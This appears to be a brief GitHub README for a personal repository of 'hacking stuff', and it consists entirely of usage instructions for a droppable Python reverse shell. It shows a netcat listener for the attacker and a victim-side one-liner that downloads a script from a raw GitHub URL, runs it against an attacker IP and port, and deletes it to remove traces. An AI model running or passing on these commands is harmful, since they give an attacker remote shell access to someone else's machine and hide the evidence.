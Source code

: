 # Common Hacking Stuff I need to have in cloud

## Dropable Python Reverse shell

### Usage:

#### Attacker

`nc -lvp <port>`

#### Victim

`wget https://raw.githubusercontent.com/ElChicoDePython/HackingStuff/master/python_shell.py && python python_shell.py <attacker_ip> <attacker_port>; rm python_shell.py`

